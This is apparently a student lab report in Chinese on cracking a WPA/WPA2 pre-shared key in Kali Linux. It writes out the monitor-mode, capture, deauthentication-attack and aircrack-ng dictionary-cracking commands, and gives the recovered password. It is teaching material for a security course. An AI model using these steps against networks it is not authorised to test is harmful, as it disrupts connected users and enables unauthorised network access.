

# ⽆线接⼊⽹⼊侵与防御
---

## 实验目标

- [x] 实验⼀：WPA/WPA2 PSK破解


---

## 实验环境

- 操作系统: Kali Linux
- 虚拟机软件: VirtualBox7.1.6

---

## 实验步骤

### 实验⼀：WPA/WPA2 PSK破解
#### 实验步骤:


启动⽆线网卡的监听模式并先查看监听的列表：
```sh
airmon-ng start wlan0
```


找到要抓包的网络 SSID 在 CH11 后指定信道进行抓包：
```sh
airodump-ng wlan0mon --channel 11 -w saved --beacons
```


开启⼀个新的终端，进⾏ Deauthentication 攻击 ，迫使已经连接的设备先解除连接，重新连接时重新进行四次握手，方便我们抓取到相应的 eapol 包：
```sh
aireplay-ng --deauth 0 -a 82:1C:6D:AA:EC:BF wlan0mon
```


结束抓包并查看已经抓到的包，检查是否包含 eapol 包，这里我匹配了自己移动设备的 mac 地址和协议类型进行过滤：


确定抓取到了eapol 包后就可以继续针对抓取的数据包进行分析解密，使⽤ `aircrack-ng` 完成密码破解，调用 rockyou.txt 作为解密字典：

```sh
aircrack-ng -w /usr/share/wordlists/rockyou.txt -b 82:1C:6D:AA:EC:BF saved-02.cap
```



可见破解出了 wifi 密码为 `12345678`

---

## 遇到的问题及解决方案

- 破解密码需要通过字典进行匹配，kali 自带的 `/usr/share/wordlists/rockyou.txt` 字典可能还是以 gz 压缩包的形式存放的，需要进行解压操作
```sh
sudo gzip -d  rockyou.txt.gz
```
- 在进行解密时如果没有进行抓取到eapol包会出现下面的情况,无法解密


需要重新开始实验抓包，开启抓包在移动端连接或是连接后进行解除认证攻击时抓包

---


